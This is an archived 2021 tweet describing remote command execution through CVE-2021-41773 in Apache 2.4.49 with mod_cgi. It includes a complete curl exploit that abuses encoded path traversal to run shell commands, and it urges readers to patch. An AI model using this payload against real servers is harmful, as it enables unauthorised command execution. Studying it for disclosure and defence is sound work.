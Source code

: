 </tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1445531829985968137 _at 2021-10-05, 23:30:19_**
<blockquote>
Here's how to run full commands with arguments via CVE-2021-41773 via a path traversal vulnerability in the event mod-cgi is enabled on Apache 2.4.49

curl --data "A=|id&gt;&gt;/tmp/x;uname\$IFS-a&gt;&gt;/tmp/x" 'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -vv

Patch urgently. https://t.co/jaL6jpR42w
</blockquote>

<table><tr>
<td><img src="pictures/a29ec4e5d2453b8b3363b6a3d71261b218c5ede2334f8aea52c5625287c0c20e.jpg" alt="a29ec4e5d2453b8b3363b6a3d71261b218c5ede2334f8aea52c5625287c0c20e.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>50</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>548</code></td>
<td>Favorites: <code>1215</code></td>
</tr></table>
